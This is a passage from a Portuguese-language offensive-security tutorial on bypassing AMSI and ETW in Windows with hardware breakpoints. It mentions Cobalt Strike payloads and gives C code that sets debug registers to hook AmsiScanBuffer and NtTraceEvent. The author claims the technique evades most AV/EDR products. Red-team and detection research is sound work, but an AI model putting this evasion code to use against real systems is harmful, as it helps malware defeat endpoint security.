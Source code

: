 Se você está só executando shellcode puro por exemplo, payloads de frameworks como [Cobalt Strike](https://www.cobaltstrike.com/) que rodam BOF/COFFs, o **AMSI** não será envolvido, e portanto não há "muita" necessidade de aplicar um bypass.

> [!note] Nota!
> Para mais detalhes, consulte a [documentação oficial da Microsoft sobre AMSI](https://learn.microsoft.com/pt-br/windows/win32/amsi/how-amsi-helps) e [ETW](https://learn.microsoft.com/windows/win32/etw/about-event-tracing).

## Implementando o HWBP Engine

Neste projeto, vamos utilizar **breakpoints de hardware** para aplicar um patch na **AMSI** e **ETW**.
Na minha experiência, essa técnica ainda é eficaz contra a maioria dos mecanismos de detecção usados por soluções **AV/EDR**.

> [!note] Nota!
> No entanto, é importante destacar que isso pode mudar a qualquer momento com o surgimento de novas abordagens de detecção.
 
Recentemente, alguns fornecedores começaram a implementar detecções baseadas em **ETWti**, utilizando chamadas como **SetThreadContext**, conforme detalhado neste [artigo](https://www.praetorian.com/blog/etw-threat-intelligence-and-hardware-breakpoints/).

O **Hardware Breakpoint Engine** (HWBP) permite definir breakpoints de hardware em pontos de interesse (por exemplo, `AmsiScanBuffer` e `NtTraceEvent`). Utilizamos:

```c
extern NTSTATUS NtGetContextThread(HANDLE, PCONTEXT);
extern NTSTATUS NtSetContextThread(HANDLE, PCONTEXT);

BOOL HwbpEngineBreakpoint(ULONG pos, PVOID func) {
    CONTEXT ctx = {0};
    ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
    NtGetContextThread(GetCurrentThread(), &ctx);

    if (func) {
        ((PULONG_PTR)&ctx.Dr0)[pos] = (ULONG_PTR)func;
        ctx.Dr7 |= 1ULL << (2 * pos);
    } else {
        // Remove breakpoint
        ((PULONG_PTR)&ctx.Dr0)[pos] = 0;
        ctx.Dr7 &= ~(1ULL << (2 * pos));
    }

    return NT_SUCCESS(NtSetContextThread(GetCurrentThread(), &ctx));
}
```

- **Dr0–Dr3**: endereços de breakpoint.
- **Dr7**: controle de habilitação.
## Evasão de AMSI/ETW via Breakpoints de Hardware
